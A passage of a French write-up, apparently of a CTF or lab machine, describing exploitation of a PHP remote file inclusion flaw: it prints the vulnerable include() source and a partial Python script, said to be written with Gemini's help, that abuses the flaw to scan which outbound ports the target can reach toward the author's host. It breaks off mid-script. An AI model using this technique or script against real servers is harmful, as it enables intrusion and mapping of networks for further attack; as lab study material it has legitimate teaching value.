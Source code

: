 Si on demande de lire `/var/www/html/index.php` alors la page ne charge pas, comme si le serveur était dans une boucle infinie. Ça sent bien l'inclusion, quand même !

Mon intuition est confirmée en mettant en place un serveur web sur ma machine (en écoute sur le port 80) et en demandant au script vulnérable d'aller y chercher du code PHP.

Avec le RCE obtenu, je confirme le fonctionnement du script :

```php
<?php
if (isset($_GET['page'])) {
    $page = $_GET['page'];

    if (!preg_match('/^(file|https?):\/\//i', $page)) {
echo 'nonono~';
        return;
    }

    if (preg_match('/^https?:\/\/(www\.)?google\.com\/?$/i', $page)) {
        echo 'gulugulu~';
        return;
    }

    @include($page);
}
?>
```

Il semble que la machine ait des règles egress alors avec l'aide de l'IA Gemini, j'ai fait ce code Python qui va me permettre de voir les ports sortant autorisés :

```python
import asyncio
import httpx
import sys

TARGET_SSRF_HOST = "http://192.168.100.128"
TARGET_SSRF_PARAM = "page"
LISTEN_SCAN_HOST = "192.168.100.1"
PORTS_TO_SCAN = range(1, 65536)
CONCURRENT_REQUESTS = 100
TIMEOUT_SECONDS = 20

async def send_ssrf_request(client: httpx.AsyncClient, port: int):
    url = f"{TARGET_SSRF_HOST}/?{TARGET_SSRF_PARAM}=http://{LISTEN_SCAN_HOST}:{port}/"

    try:
        await client.get(url, timeout=TIMEOUT_SECONDS)
    except httpx.RequestError as exc:
        pass

async def main():
    sys.stdout.write(f"Lancement du scan de port via SSRF sur {TARGET_SSRF_HOST} pour cibler {LISTEN_SCAN_HOST}:FUZZ\n")
    sys.stdout.write(f"Ports à scanner : {min(PORTS_TO_SCAN)} à {max(PORTS_TO_SCAN)}\n")
    sys.stdout.write(f"Concurrence : {CONCURRENT_REQUESTS} requêtes à la fois\n")

    limits = httpx.Limits(max_connections=CONCURRENT_REQUESTS, max_keepalive_connections=20)
    async with httpx.AsyncClient(limits=limits) as client:
        tasks = []
        for port in PORTS_TO_SCAN:
            tasks.append(send_ssrf_request(client, port))

        total_ports = len(PORTS_TO_SCAN)
        processed_ports = 0

```